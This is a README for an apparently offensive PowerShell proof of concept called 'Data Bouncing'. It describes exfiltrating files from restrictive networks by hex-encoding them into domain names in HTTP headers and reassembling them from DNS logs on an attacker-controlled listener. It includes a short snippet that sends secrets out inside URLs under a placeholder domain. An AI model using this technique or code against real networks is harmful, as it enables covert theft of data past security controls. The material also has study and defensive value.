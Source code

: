 # Data Bouncing - PowerShell Version

## Overview
Data Bouncing is a technique for transmitting data between two endpoints using DNS lookups and HTTP header manipulation. This PowerShell version encapsulates core functionalities of data bouncing, including reconnaissance, data exfiltration, and file reassembly, based on a proof of concept (PoC) by John and Dave. More details can be found at [The Contractor](https://thecontractor.io/DataBouncing).

## Components
The project consists of two main scripts:
- `exfil.ps1`: Manages data exfiltration.
- `recreate.ps1`: Handles reassembly of the exfiltrated data.

### `exfil.ps1`
This script encodes a file into hexadecimal chunks and sends each chunk as part of a domain name in an HTTP request header. It's used for exfiltrating data from restrictive networks.

### `recreate.ps1`
Processes data received from `exfil.ps1`, finding patterns in logs, assembling data chunks, and converting them back to their original form.

## Usage
### Prerequisites
- A controlled DNS server.
- For hobbyists, [InteractSh](https://github.com/projectdiscovery/interactsh) is recommended.

### Setting Up
1. **Listener Setup**:
   Use [InteractSh Web Client](https://app.interactsh.com/#/) or the [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with Ubuntu 22.04.

   Start the InteractSh Client on your listener machine:

2. **Target Machine Preparation**:
Convert a file to hex for transfer using [Convert-FileToHexChunks.ps1](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1).

### Running the Scripts
1. **Data Exfiltration with `exfil.ps1`**:

2. **Data Reconstruction with `recreate.ps1`**:

## Additional Functions
- `Demo-Secrets` for testing exfiltration:

  foreach ($segment in $segments.PSObject.Properties) {
      $secret = $segment.Value
      $url = "$xregex.$secret.$urlSuffix"
      Send-CustomRequest $url
  }


## Notes
- Remember to replace placeholders like 'your-regex', 'your-domain.oast.online', etc., with actual values relevant to your setup.
- The scripts are part of a PoC and should be used responsibly.

## Disclaimer
This project is for educational purposes only. Users are responsible for ensuring they comply with all applicable laws and regulations.
